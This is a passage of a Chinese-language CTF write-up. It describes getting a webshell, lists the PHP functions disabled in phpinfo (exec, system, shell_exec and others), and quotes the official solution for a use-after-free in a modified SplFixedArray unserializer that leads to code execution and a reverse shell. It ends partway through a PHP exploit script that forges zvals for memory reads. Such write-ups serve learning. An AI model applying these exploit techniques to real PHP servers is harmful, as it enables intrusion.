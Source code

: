 

竞争一波，可以拿到webshell

![phpinfo](https://mo-xiaoxi.github.io/img/post/another/phpinfo.png)

![webshell](https://mo-xiaoxi.github.io/img/post/another/webshell.png)

在phpinfo中，可以看到很多函数被禁用。。。

```
  exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,	exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,
  display_errors                          	                                        

```



接下来的问题在于php.diff.官方题解讲到：



> 根据php.diff，可以得知修改部分在php的SplFixedArray类中，作者为SplFixedArray新增了序列化与反序列化方法。简单阅读修改部分可以发现bug存在于反序列化过程中：如果php_var_unserialize失败，会调用zval_ptr_dtor减少对应zval的引用计数，从而导致其被释放，造成use-after-free。通过伪造zval可以达到任意地址读写与代码执行。
> 拿到reverse shell之后，在根目录发现flag.txt，用flag_reader程序可以读出flag。

orz,反正我看不懂。。。

脚本贴上：

 ```PHP

<?php

function ptr2str($ptr)
{
    $out = '';
    for ($i = 0; $i < 8; $i++) {
        $out .= chr($ptr & 0xff);
        $ptr >>= 8;
    }
    return $out;
}

function readmem($address, $length)
{
    $inner = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
    $fakezval = ptr2str($address);
    $fakezval .= ptr2str($length);
    $fakezval .= "\x00\x00\x00\xff";
    $fakezval .= "\x06";
    $fakezval .= "\x00";
    $fakezval .= "\x00\x00";
    $inner2 = 's:'.strlen($fakezval).':"'.$fakezval.'"';
 ```